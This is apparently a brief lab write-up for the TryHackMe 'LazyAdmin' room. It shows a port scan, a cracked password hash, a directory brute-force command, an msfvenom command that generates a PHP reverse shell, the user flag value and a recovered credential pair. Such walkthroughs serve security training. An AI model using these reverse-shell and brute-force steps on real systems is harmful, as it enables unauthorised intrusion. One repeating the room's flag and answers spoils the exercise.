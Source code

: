 
https://tryhackme.com/r/room/lazyadmin

```
└─# nmap -p- 10.10.179.155 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-09 18:48 UTC
Nmap scan report for ip-10-10-179-155.eu-west-1.compute.internal (10.10.179.155)
Host is up (0.0070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
42f749ade7f9e195bf475f37a44cafcb
manager
passwd

42f749ade7f9e195bf475f37a44cafcb:Password123
```


```
dirb http://10.10.179.155 /usr/share/wordlists/dirb/big.txt -e extensions_common.txt
```


```
msfvenom -p php/reverse_php LHOST= LPORT= -f raw > test.php 
```

```
cat /home/itguy/user.txt 
```

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

```
rice:randompass
```


What is the user flag?  

What is the root flag?